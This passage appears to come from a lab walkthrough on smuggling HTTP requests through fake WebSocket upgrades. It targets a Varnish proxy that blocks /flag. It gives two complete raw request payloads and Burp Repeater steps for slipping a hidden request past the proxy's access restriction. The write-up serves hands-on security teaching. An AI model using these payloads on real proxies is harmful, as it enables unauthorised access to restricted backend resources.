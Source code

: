 This error message was sent by Varnish (the proxy) instead of the backend application, which should be interesting. If we try accessing another non-existent resource likeÂ `http://10.10.235.194:8001/nonexistent134`,Â the error message presented will be different. At this point, we should be suspicious that the frontendÂ proxyÂ is restricting access toÂ `/flag`Â in the backend web server.

Luckily, there's also a WebSocket endpoint we can abuse atÂ `http://10.10.235.194:8001/socket`. Let's send the following payload to try to smuggle a request for the flag inside a broken WebSocket connection:

```shell
GET /socket HTTP/1.1
Host: 10.10.235.194:8001
Sec-WebSocket-Version: 777
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.235.194:8001

```

To send the request, we will use Burp's Repeater. To ensure Burp doesn't modify our request and break the attack, we need to make sure theÂ `Update Content-Length`Â setting is disabled:

![Disabling Update Content-Length setting in Burp](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/bb84fd50d49bd7c3e88397abcc0def9d.png)  

Once this is done, we can send our payload and should get the flag (note the two newlines at the end of the payload):

![Smuggling a request through WebSockets](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/b1cf9c5f2251c60723a005819bcd36be.png)  

Just as expected, we get aÂ `426`Â error from the initial attempt to upgrade the connection to a WebSocket. At this point, the proxy believes the rest of the connection uses the WebSocket protocol and will tunnel everything directly to the backend server, including our smuggled request forÂ `/flag`.

What if the App Doesn't Speak WebSocket?

Note that some proxies will not even require the existence of a WebSocket endpoint for this technique to work. All we need is to fool theÂ proxyÂ into believing we are establishing a connection to a WebSocket, even if this isn't true. Look at what happens if you try to send the following payload (be sure to add two newlines after the payload in Burp):

```shell
GET / HTTP/1.1
Host: 10.10.235.194:8001
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.235.194:8001

```
